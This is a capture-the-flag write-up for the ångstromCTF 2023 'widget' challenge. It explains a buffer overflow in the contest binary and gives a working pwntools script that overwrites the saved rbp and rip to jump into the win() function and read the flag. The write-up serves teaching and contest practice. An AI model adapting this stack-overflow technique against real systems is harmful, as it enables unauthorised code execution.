


# ångstromCTF 2023 - widget



You can download challenge here: [widget.zip](widget.zip)

# 1. Find bug


In IDA, we know that we can control the input size (1), hence we can overflow easily (2) --> **Buffer Overflow** bug. On the other hand, there is also a **Format String** bug at the end of main() function. We also have win() function here:


# 2. Idea

With **Buffer Overflow**, we can overwrite saved rip to make it execute win() function, but don't need to be at the beginning, we can jump right at when it open, read and write flag. The bug **Format String** seems useless and it's a rabbit hole if you don't know XD

# 3. Exploit

After finding offset, I know that offset from input buffer to saved rbp and saved rip is 0x20 and 0x28, respectively. Then we have this payload:

```python
payload = b'A'*0x28 + p64(0x40130B)
```

That address is taken from this code at the middle of function win():


But then we face a problem that this code cause SIGBUS:


Why that's happen? Let's check registers:



Register rax seems normal but rbp is not, hence the instruction cause error. To solve this problem, just set rbp to a writable address and we are good to go:

```python
payload = flat(
    b'A'*0x20,
    0x404a00,        # Saved rbp
    0x40130B         # Saved rip
)
```

That fake saved rbp is the writable address of binary 0x404000 and I add with a chosen offset 0xa00 (you can choose another offset as you wish). Send payload and we can get the flag.

Solve script: 

```python
from pwn import *

context.binary = exe = ELF('widget_patched', checksec=False)
sl = lambda data: p.sendline(data)

if args.REMOTE:
	p = remote('challs.actf.co', 31320)
	print(p.recvuntil(b'solution: ').decode())
	p.sendline(input('pow: ').encode())
else:
	p = process(exe.path)

payload = flat(
    b'A'*0x20,
    0x404a00,        # Saved rbp
    0x40130B         # Saved rip
)
sl(str(len(payload)).encode())
sl(payload)

p.interactive()
```

# 4. Get flag


Flag is `actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}`